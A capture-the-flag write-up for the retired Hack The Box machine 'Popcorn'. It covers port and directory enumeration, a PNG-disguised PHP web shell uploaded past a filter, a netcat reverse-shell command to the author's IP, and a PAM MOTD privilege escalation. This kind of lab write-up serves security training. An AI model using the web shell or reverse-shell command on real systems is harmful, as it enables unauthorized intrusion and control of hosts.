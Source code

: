 # Popcorn

This is the write-up for the box Popcorn that got retired at the 25th June 2017.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.6    popcorn.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/popcorn.nmap 10.10.10.6
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we find the default "It works" message from an Apache2 installation.
So lets enumerate paths with **Gobuster**:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://10.10.10.6
```

We get the following paths back:
- /index (Status: 200)
  - The index file we have seen
- /test (Status: 200)
  - Displays the PHP version file and it is 5.2.10
- /torrent (Status: 301)
  - Shows some Torrent hosting service powered by _Torrent Hoster_
- /rename (Status: 301)
  - Renamer API Syntax: index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name
- /server-status (Status: 403)

That torrent page has an Upload button but we need an account to access it. 

![Sign Up on torrent page](https://kyuu-ji.github.io/htb-write-up/popcorn/popcorn_sign-up.png)

After login we can try to upload anything but we get a message to upload an **Torrent file**. If we look at the _Browse_ tab, we see that there is already one uploaded and the link is:
```markdown
http://10.10.10.6/torrent/torrents.php?mode=download&id=723bc28f9b6f924cca68ccdff96b6190566ca6b4
```

Now we need to find where this file is located on the box and after some trying we find the path **/torrent/upload** but with only two PNG files.
One of the PNG files has the same string as the uploaded file and leads to the image file that was uploaded with it.

The upload of PHP files doesn't work here either but we can add the first magic bytes of an image file to an PHP file and upload that.

We append the following code at the end of some bytes of a PNG file and send the request again:
```php
<?php echo system($_REQUEST['cmd']); ?>
```

![Upload webshell in Burpsuite](https://kyuu-ji.github.io/htb-write-up/popcorn/popcorn_upload-bs.png)

When we browse back to the upload directory we see the PHP file:

![Upload successful](https://kyuu-ji.github.io/htb-write-up/popcorn/popcorn_upload-success.png)

Now we have code execution and can start a reverse shell with:
```markdown
/torrent/upload/670acf31ef5489934e6023980c419926e764e0d3.php?cmd=nc+-e+/bin/sh+10.10.14.10+9001
```

We get a reverse shell as user _www-data_ and permission to read the user flag.

## Privilege Escalation

When looking through the home folder of _George_ one thing that stands out is the file **motd.legal-displayed** in the **.cache** folder.
This stands for _Message Of The Day_ and we can look for privilege escalation vulnerabilities:
```markdown
searchsploit motd
```

There is one for the application **PAM**:
> Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)

Checking if we got this or an older version of PAM on the box:
```markdown
dpkg -l | grep -i pam
```
```markdown
ii  libpam-modules              1.1.0-2ubuntu1            Pluggable Authentication Modules for PAM
ii  libpam-runtime              1.1.0-2ubuntu1            Runtime support for the PAM library
ii  libpam0g                    1.1.0-2ubuntu1            Pluggable Authentication Modules library
```

We see the version 1.1.0 on the box and can upload the script and run it:

![Running the Privilege Escalation Exploit](https://kyuu-ji.github.io/htb-write-up/popcorn/popcorn_privesc.png)

Now we are root!
